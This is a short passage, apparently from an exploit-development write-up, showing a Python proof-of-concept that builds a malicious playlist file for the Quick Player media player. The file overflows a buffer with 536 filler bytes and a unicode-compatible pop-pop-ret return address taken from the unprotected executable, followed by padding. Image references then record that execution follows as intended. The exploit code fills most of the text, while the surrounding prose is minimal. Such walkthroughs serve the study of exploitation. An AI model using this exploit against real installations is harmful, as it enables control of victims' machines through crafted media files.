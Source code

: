 ```term
ret = "\x71\x41" + "\xF2\x41" # 0x004100f2 : pop esi # pop ebx # ret 0x04 | startnull,unicode {PAGE_EXECUTE_READWRITE} [Quick Player.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.3.0.0 (C:\Program Files\Quick Player\Quick Player.exe)

buffer = "A" * 536 + ret + "C" * 200

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```

Exploiting the application once again, the execution follows as it is intended:

![](/assets/img/Findings6/11.png)

![](/assets/img/Findings6/12.png)
